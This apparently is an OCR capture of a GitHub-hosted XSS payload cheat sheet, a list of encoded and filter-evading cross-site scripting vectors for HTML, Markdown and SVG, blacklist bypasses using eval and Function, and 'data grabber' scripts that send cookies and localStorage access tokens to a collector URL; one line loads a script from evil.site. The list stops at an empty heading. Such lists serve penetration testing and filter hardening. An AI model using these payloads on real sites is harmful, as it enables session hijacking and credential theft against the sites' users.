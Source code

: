 ````html
<style>*{background-image:url('\\\\6A\\\\61\\\\76\\\\61\\\\73\\\\63\\\\72\\\\69\\\\70\\\\74\\\\3A\\\\61\\\\6C\\\\65\\\\72\\\\74\\\\28\\\\6C\\\\6F\\\\63\\\\61\\\\74\\\\69\\\\6F\\\\6E\\\\29')}</style>
%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%22%58%53%53%22%29%3C%2F%73%63%72%69%70%74%3E
[̕h+͓.＜script/src=//evil.site/poc.js>.͓̮̮ͅ=sW&͉̹̻͙̫̦̮̲͏̼̝̫́̕
"><input/onauxclick="[1].map(prompt)">
<img src=x onerror=eval(atob('YWxlcnQoJ0kgb25seSB3cml0ZSBsYW1lIFBvQ3MnKQ==')) />
'"--><Body onbeforescriptexecute="[1].map(confirm)">
'-prompt.call(window, 'xss')-'
<svg+onload=innerHTML=URL,outerHTML=textContent>#&ltimg/src/onerror=alert(domain)&gt
<img src=x onVector=X-Vector onerror=alert(1)>
%2sscript%2ualert()%2s/script%2u
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
toString=\\\\u0061lert;window+' '
"'-->aaaaa<h1 onclick=alert(1)>test
<noscript><p title="</noscript><img src=x onerror=alert(document.domain)>">
" onfocus="alert(1)" autofocus="
''"--><img src=x onODYSsyi=1 onerror=alert(document.cookie)>
"'--><img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>

# XSS in Markdown
[a](javascript:prompt(document.cookie))
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)

# XSS in SVG (short)
<svg xmlns='http://www.w3.org/2000/svg' onload='alert(document.domain)'/>
<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>

# Bypass word blacklist with code evaluation
eval('ale'+'rt(0)');
Function('ale'+'rt(1)')();
new Function`alert`6``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`alert(14)```;

# Data grabber for XSS
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src='http://localhost/cookie.php?c='+document.cookie;</script>
<script>new Image().src='http://localhost/cookie.php?c='+localStorage.getItem('access_token');</script>



# Quick Defense:
<input type="search" onsearch="aler\\\\u0074(1)">
<details ontoggle="aler\\\\u0074(1)">

# IMG_error
<img onerror="location='javascript:=lert(1)'" src="x">
<img onerror="location='javascript:%61lert(1)'" src="x">
<img onerror="location='javascript:\\x2561lert(1)'" src="x">
<img onerror="location='javascript:\\x255Cu0061lert(1)'" src="x" >

# Unicode + HTML
````